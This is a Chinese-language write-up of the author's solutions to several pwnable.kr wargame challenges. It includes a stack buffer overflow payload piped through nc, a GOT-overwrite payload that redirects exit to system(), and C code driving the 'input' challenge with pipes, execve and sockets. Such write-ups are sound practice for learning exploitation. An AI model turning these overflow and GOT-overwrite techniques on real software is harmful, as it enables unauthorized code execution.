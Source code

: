 #bof
```
import struct
padding = 'A'*52 #这里不是算的
key_addr = struct.pack("I", 0xcafebabe)
print padding + key_addr
```
重点是确定填充的字节，由func中
0x56555649 <+29>:   lea    eax,[ebp-0x2c]
2C 是 44 填充44个A 再加上addr正好覆盖ebp这个地址，而
0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
所以只有再加8就正好覆盖了比较的地址，即key的位置。
知道这个之后就可以利用python加管道进行pwn
(python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

#flag
IDA打开之后就看到upx的字符，猜测是upx壳，linux下看了一下，apt安装下upx然后就可以解壳了

#passcode
这题完全不知道怎么做，然后看国外大牛的wp。理解了半天，没懂。
然后自己gdb调试，，忽然想起来，在调用welcome之后和调用login之后，
esp的地址一样，这样因为函数开始的时候都有mov    ebp,esp。
所以ebp(ebp在整个函数初始化指针之后是不会再改变的)就是可以认为是一样的，然后welcome调用结束后的数据并没有清楚，而是留在栈上，栈调用welcome结束后仅仅是把指针调整了，并没有清除数据，所以这里就是可以利用的地方。
然后这个还有个条件，就是scanf("%d", passcode1);IDA逆向出来是__isoc99_scanf("%d");这样程序就会直接读取对应栈上的值
0x70-0x10 = 0x60 = 96。只要有96个就能覆盖passcode1的值
```
welcome:
0x0804862f <+38>:   lea    edx,[ebp-0x70]
0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:    mov    DWORD PTR [esp],eax
0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
login:
0x0804857c <+24>:   mov    edx,DWORD PTR [ebp-0x10]
```
之后就是直接的plt利用了，不过这个也是理解了不少时间，实际上就是call exit的时候，实际上是先执行jmp _exit (_exit就是实际上exit的地址，而采用全局偏移表的方式存储，只要把这个地方改掉就行了。)
```
0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
0x080485de <+122>:   call   0x848450 <puts@plt>
0x080485e3 <+127>:   mov    DW0ORD PTR [esp],0x80487af
0x080485ea <+134>:   call   0x8048460 <system@plt>
```
system("")对应的地址：0x080485d7 = 134514135
0x080485e3
偏移表中exit对应的地址804a018
于是就可以'A'*96 + '\x18\xa0\x04\x08' + '134514135\n'

#random
开始看的rand没有思路，然而，，，如此简单。
rand需要先srand初始化化下时间种子，否则rand的返回值一直固定。然后利用异或的性质，ok

#input
```
./input `python -c "print 'A '*47 + '\x00' + '\x20\x0a\x0d'"`
```
发现不行，截取字符串的时候没有把\x00当成一个整体。
然后只能又是找wp，发现都是用c来写的，定义个数组orz
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
int main()
{
    char* padding[101] = {[0 ... 99] = "A"};//0~99全赋值为"A"
    padding['A'] = "\x00";
    padding['B'] = "\x20\x0a\x0d";
    padding['C'] = "31337";
    printf("Start\n");
    execve("/home/input/input",padding,NULL);//这里/home/input/input写成了home/input/input
    return 0;
}
```
第一个直接通过传参数就能通过。
第二个就有点头疼了，查了一下fd句柄的说明
0:stdin标准输入
1:stdout
2:stderr
orz。然后又看wp，有一种是利用dup2来改变fd句柄，通过管道进行赋值
```
    if(fork() == 0)
    {
        printf("Parent Processing is here...\n");
        dup2(pipe1[0],0);
        close(pipe1[1]);
        dup2(pipe2[0],2);
        close(pipe2[1]);
        execv("/home/input/input", padding, envp);
    }
    else
    {
        printf("Son processing is here...\n");
        write(pipe1[1], "\x00\x0a\x00\xff", 4);
        write(pipe2[1], "\x00\x0a\x02\xff", 4);
    }
```
这样前三个就over了
然后第四个是文件读写，这个还是很简单的，查一下fopen和fwrite就好了
最后一个是socket，之前搞arm的时候看了一点然而。。。
```
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
    //建立socket
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
    //建立bind连接，端口是argv['C'],在前面设置为padding['C'] = "9000";
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);//开启监听
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
    //接收长度应该为4
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");
```
然后方法其实不是在c里面写个socket通信，直接python
python -c "print '\xde\xad\xbe\xef'“ | nc 127.0.0.1 9000
Tips: 本地ip地址是127.0.0.1
9000好像不行，换一个。88888..试了好久，网络各种卡。。
算了，还是写个socket吧。。
```
int sd,cd;
struct sockaddr_in saddr, caddr;
sleep(5);
printf("Connecting\n");
sd = socket(AF_INET, SOCK_STREAM, 0);
if(sd == -1)
{
    printf("socket error~\n");
    return 0;
}
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = INADDR_ANY;
saddr.sin_port = htons(atoi(padding['C']));
connect(sd, (struct sockaddr *)&saddr, sizeof(saddr));
send(sd, "\xde\xad\xbe\xef", 4, 0);
close(sd);
```
通过~
